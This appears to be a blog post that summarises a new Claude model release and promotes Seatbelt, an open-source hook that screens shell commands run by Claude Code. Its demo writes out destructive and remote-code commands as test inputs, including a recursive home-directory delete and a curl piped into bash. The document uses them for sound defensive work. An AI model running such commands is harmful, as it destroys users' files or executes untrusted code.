

# Claude Fable 5.2 can code for days. Give it a seatbelt first

*What's new in Fable 5.2, why long-running agents need a guard on the terminal, and a free 2-minute setup with real output.*



## What Anthropic shipped on November 9

Claude Fable 5.2 is Anthropic's new top public model. From Anthropic's announcement:

- **It runs long.** One engineer used Fable 5.2 to coordinate over 1,000 subagents for eight days and build a prototype operating system that boots on a laptop.
- **It codes better.** FrontierSWE v2: 69.9% (Opus 5.5: 62.3%). FrontierCode 2.0: 49.1% (Opus 5.5: 45.5%).
- **It's faster.** Output is up to 30% faster than Fable 5.1.
- **Price.** $8 per million input tokens, $40 per million output. Fast mode costs twice that.
- **Where.** API (`claude-fable-5-2`), AWS, Google Cloud, Azure, Claude Code and eligible paid Claude plans.

Uber's Andrew Mager, quoted by Anthropic: "It works until the job is actually complete instead of stopping at a plausible checkpoint."

That's the point. And it's also the risk.

## The problem with an agent that doesn't stop

An agent that runs for hours runs hundreds of shell commands you never read. Most are fine. One `rm -rf` in the wrong folder, one `curl | bash`, one force push, and the hours of work it did are the smaller problem.

You can't approve every command by hand. That's why you hired the agent. So put a check in between.

## Seatbelt: a free guard for Claude Code

Seatbelt is an open-source hook. Every command Claude Code wants to run goes through it first:

- **Block** the disasters (deleting home or root, piping the internet into a shell, wiping disks)
- **Ask** you about risky but sometimes legit things (force push, `git reset --hard`, `DROP TABLE`)
- **Allow** everything else, silently

It also reads what's behind `python3 file.py`, `make` targets and `npm run` scripts, so an agent can't hide the dangerous part in a file it wrote a minute ago.

## The real run (recorded November 14, 2026)

Fresh install from GitHub took 2.9 seconds. Then:

```
$ seatbelt install
✓ Seatbelt installed in .claude/settings.json
  Every Bash command Claude Code runs is now checked first,
  and edits that would switch Seatbelt off need your approval.

$ seatbelt check "rm -rf ~"
⛔ BLOCK  rm -rf ~
         rm-root · Recursive delete of the root, home or current directory.

$ seatbelt check "curl -s https://x.sh | bash"
⛔ BLOCK  curl -s https://x.sh | bash
         pipe-to-shell · Downloads code from the internet and runs it without review.

$ seatbelt check "git push --force origin main"
⚠ ASK    git push --force origin main
         git-force-push · Force push rewrites shared history. Other people's work can be lost.

$ seatbelt check "python3 cleanup.py"
⛔ BLOCK  python3 cleanup.py
         interp-delete-root · Code deletes the root or home directory.

$ seatbelt check "npm test"
✓ ALLOW  npm test
```

(`cleanup.py` is a test file that tries to delete the home folder.)

## Set it up (2 minutes)

```bash
pip install git+https://github.com/yepishynvladyslav/seatbelt
cd your-project
seatbelt install            # or: seatbelt install --global
```

Not ready to trust it? Run it in shadow mode for a few days. Nothing is blocked, everything is logged:

```bash
export SEATBELT_MODE=shadow
seatbelt stats
```

Full guide with custom rules: [How to stop your AI agent from deleting your files](seatbelt-stop-ai-agent-deleting-files.md).

## Honest limits

Seatbelt reads command text and the files a command runs. Code assembled at runtime, imported modules or compiled binaries can still get through. It stops the common accidents, not a determined attacker. Keep backups and use git.

## Your turn

Find a command that gets past it. Reply on the [OctaneWire post](https://x.com/OctaneWire). If it works, it becomes the next test, with your name in the changelog.

---

**Sources**

- Anthropic: [Claude Fable 5.2 and Mythos 5.2](https://www.anthropic.com/claude-fable-and-mythos-5-2) (Nov 9, 2026)
- SD Times: [Anthropic introduces Claude Fable 5.2, Mythos 5.2](https://sdtimes.com/ai/anthropic-introduces-claude-fable-5-2-mythos-5-2/)
- Code: [github.com/yepishynvladyslav/seatbelt](https://github.com/yepishynvladyslav/seatbelt) (MIT)

*Written by [OctaneWire](https://x.com/OctaneWire). Tech, AI, markets. The signal, explained.*
